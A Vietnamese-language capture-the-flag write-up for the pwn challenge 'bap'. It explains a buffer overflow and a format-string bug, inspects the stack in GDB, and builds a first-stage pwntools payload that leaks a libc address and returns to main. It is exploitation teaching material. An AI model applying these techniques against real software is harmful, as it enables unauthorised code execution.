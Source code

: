 # bap (pwn)

## First look 
- Given files: `bap`, `libc.so.6`
- Description: bap bap bap
- Author: JoshDaBosh
- Bug: BOF + FMT + Ret2Libc

## Solution 

Tại hàm `main`, chúng ta thấy có 2 bug là BOF + FMT 
```c
gets(format);
return printf(format);
```
kết hợp việc đề bài cho `libc`, khả năng cao hướng giải bài này sẽ là Ret2Libc. 

Kiểm tra các lớp bảo vệ của file 
```
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Full
```
chúng ta đưa ra 1 số kết luận sau: 
- Canary tắt, dễ dàng thực thi BOF. 
- NX bật, không Ret2Shellcode được, đây cũng không phải hướng giải ban đầu của mình. 
- PIE tắt, địa chỉ các hàm, các biến sẽ không đổi 
- RelRO full, ta sẽ không ghi đè được bảng GOT 

Trong GDB, ta đặt 2 breakpoints tại hàm `gets()` và `printf()` nhằm quan sát xem mình đọc hoặc ghi được gì trên stack 
```
0x00000000004011b6 <+64>:    call   0x401080 <gets@plt>         (*)
0x00000000004011bb <+69>:    lea    rax,[rbp-0x10]
0x00000000004011bf <+73>:    mov    rdi,rax
0x00000000004011c2 <+76>:    mov    eax,0x0
0x00000000004011c7 <+81>:    call   0x401070 <printf@plt>       (*)
```

Ta thấy: 
- `0x00007ffecc4d9728│+0x0018: 0x00007f7f71994d00  →  <__libc_init_first+0> endbr64` chứa địa chỉ sẽ được trả về khi hàm `main` kết thúc
- `0x00007ffcb6daaf88│+0x00b8: 0x00007fd235f71e40  →  <__libc_start_main_impl+128> mov r15, QWORD PTR [rip+0x1ef159]` có địa chỉ của `libc`

Hướng khai thác: 
- Dựa vào bug BOF, ta ghi đè được địa chỉ trả về là hàm `main` để chương trình quay lại hàm `main` một lần nữa. 
- Dựa vào bug FMT, ta leak được địa chỉ `libc` bằng `%29$p` 

```python
payload = b'%29$p'.ljust(24, b'\x00') 
payload += (p64(elf.symbols['main'] + 5))
```